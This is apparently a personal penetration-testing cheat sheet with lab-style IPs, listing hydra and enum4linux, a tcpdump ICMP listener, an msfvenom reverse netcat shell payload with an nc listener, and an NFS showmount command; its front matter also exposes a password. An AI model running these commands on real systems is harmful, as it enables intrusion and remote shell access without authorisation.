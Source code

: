 ```yaml
---
description: draft.3os.re
password: 8(Y2P8U3KpRAS7im^W!
disqus: ""
---
```


# Draft PT

## Tools

* hydra - brutforece
* enum4linux - enumaration

## lisent fot Ping/icmp on interface

```bash
sudo tcpdump ip proto \\icmp -i eth0
```

## reverse netcat shell

Payload R(row)

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.11.19.49 lport=4444 R
```

listener:

```bash
nc -lvp 4444
```

## NFS show mount

```bash
showmount -e 10.10.87.232
```
